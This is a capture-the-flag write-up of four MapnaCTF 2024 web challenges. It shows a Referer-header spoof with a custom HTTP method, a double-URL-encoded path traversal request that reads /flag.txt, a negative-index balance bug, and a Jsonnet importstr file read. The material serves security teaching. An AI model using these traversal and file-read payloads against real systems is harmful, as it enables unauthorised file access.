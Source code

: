 ```yaml
---
title: MapnaCTF 2024 web challenges
date: 2024-01-21
tags: 
- web
- lfi
- author-hartmannsyg
categories: MapnaCTF 2024
---
```


solved by {% person hartmannsyg %}

## Flag Holding

We are given a website:
{% ccb terminal:true %}
http://18.184.219.56:8080/
{% endccb %}

![You are not coming from "http://flagland.internal/".](/static/MapnaCTF2024/flag_holding.png)

We then set the Referer header to http://flagland.internal/:

{% ccb terminal:true lang:http %}
Referer: http://flagland.internal/
{% endccb %}
```html
	<div class="msg" style="">
		Unspecified "secret".	</div>
```

We create a url parameter called `secret`: http://18.184.219.56:8080?secret=

{% ccb lang:html gutter1:1,2, wrapped:true %}
<div class="msg" style="">
		Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->	</div>
{% endccb %}

the protocol is http, so http://18.184.219.56:8080?secret=http with the header gives us:

```html
	<div class="msg" style="">
		Sorry we don't have "GET" here but we might have other things like "FLAG".	</div>
```

We have to use a custom http method `FLAG` instead of `GET`:

```html
	<div class="msg" style="">
		MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}	</div>
```

(btw I used https://hoppscotch.io/ for all this since that way I don't have to code out things)

## Novel Reader

We see that there is a `/read` function:

```http
GET /api/read/public/A-Happy-Tale.txt HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en
Connection: keep-alive
Cookie: session=eyJjcmVkaXQiOjEwMCwid29yZHNfYmFsYW5jZSI6MX0.Za000Q.zcBtJvYM3vXoJBf_o6j8gd_g9n4
Host: 3.64.250.135:9000
Referer: http://3.64.250.135:9000/
Sec-GPC: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

We want to read /flag.txt, but our `/read` call must evaluate to a `/public` directory (or at least it must start with `/public`):
{% ccb lang:py gutter1:43-50 caption:main.py highlight:4 %}
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
{% endccb %}

So instead of doing `http://3.64.250.135:9000/api/read/public/../../../../flag.txt`, we can *double url encode* the `../` to become `%252e%252e%252f`

{% ccb lang:http wrapped:true %}
GET /api/read/public/%252e%252e%252f%252e%252e%252fflag.txt HTTP/1.1
{% endccb %}
{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

## Novel Reader 2

We can use the same double url encoding trick to read `A-Secret-Tale.txt`, but we seem to not have enough words, even when we charge the number of words to 11 (remember to update the Cookie header if you are writing code to send the request)

{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "Once a upon time there was a flag. The flag was... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

We look at the specific line of code that is blocking us from accessing the flag:

{% ccb lang:py gutter1:43-50 caption:main.py highlight:7 %}
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
{% endccb %}

Normally, what this would do is trim the `buf` to only include words `0` to `session['words_balance']`.

However, python allows for negative indexing as well, where `-1` represents the last element:

```py
>>> a='0123456789'
>>> a[0:-1]
'012345678'
```

So if we deduct and deduct until our `words_balance` is `-1`, we get:

![Words Balance: -1](/static/MapnaCTF2024/novel_reader.png)

{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

(remember to update the Cookie header if you are writing code to send the request)

## Advanced JSON Cutifier

> My homework was to write a JSON beautifier. Just Indenting JSON files was too boring that's why I decided to add some features to my project using a popular (More than 1k stars on GitHub!! ) library to make my project more exciting.
> **Important: You can't read any file other than /flag.txt on the remote environment.**

![](/static/MapnaCTF2024/advanced_json_cutifier.png)

we see that `1335+2` gets evaluated to `1337`. So it is probably something like a template injection? After a bit of fiddling (actually like half a day worth of fiddling), I tried:
```json
{"wow so advanced!!": import "os"}
```
and got:
```json
RUNTIME ERROR: couldn't open import "os": no match locally or in the Jsonnet library paths
	ctf:1:23-34	object <anonymous>
	Field "wow so advanced!!"	
	During manifestation	
```
We *finally* got the name of the library (Jsonnet). I then searched up how to read file contents using Jsonnet and got this github issue: https://github.com/google/jsonnet/issues/238

In there, they said something like:
```
std.assertEqual(importstr "lib/some_file.txt", "Hello World!\n") && 
```

So I tried importstr
```json
{"wow so advanced!!": importstr "flag.txt"}
```
and got
```json
{
   "wow so advanced!!": "MAPNA{5uch-4-u53ful-f347ur3-a23f98d}\n\n"
}
```